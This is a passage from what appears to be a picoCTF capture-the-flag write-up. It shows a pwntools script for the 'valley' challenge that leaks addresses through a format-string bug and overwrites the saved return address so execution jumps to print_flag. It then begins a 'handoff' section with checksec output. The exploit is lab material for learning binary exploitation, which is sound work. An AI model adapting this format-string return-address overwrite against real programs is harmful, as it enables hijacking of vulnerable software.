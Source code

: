 ```python
print_flag_offset = 0x00001269

p = process('./valley')
# p = remote("shape-facility.picoctf.net", 57986)

p.sendlineafter(b":", fmt_payload)
p.recvuntil(b": ")

raw_leak_addr = p.recvline(keepends=False).decode()

leak_addr = int(raw_leak_addr.split("-")[-1],16)
pie = leak_addr - leak_offset
print_flag_addr = pie+print_flag_offset

rip_point_to = int(raw_leak_addr.split("-")[-2],16) - 0x8

payload = fmtstr_payload(offset=offset, writes={rip_point_to: print_flag_addr}, write_size='short')
success(f"print flag adddress: {hex(print_flag_addr)}\nrip point to: {hex(rip_point_to)}\npayload: {payload}")
p.sendline(payload)

p.sendline(b"")
p.sendline(b"exit")
p.recvuntil(b"The Valley Disappears")
p.recvuntil(b": ")
flag = p.recvline().decode()

p.close()
print("flag: "+flag)

```

## handoff
> 想了一個下午，最後在睡前通靈出解法

保護機制
```bash
$ checksec handoff
[*] '/home/kali/CTF/pwn/handoff/handoff'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
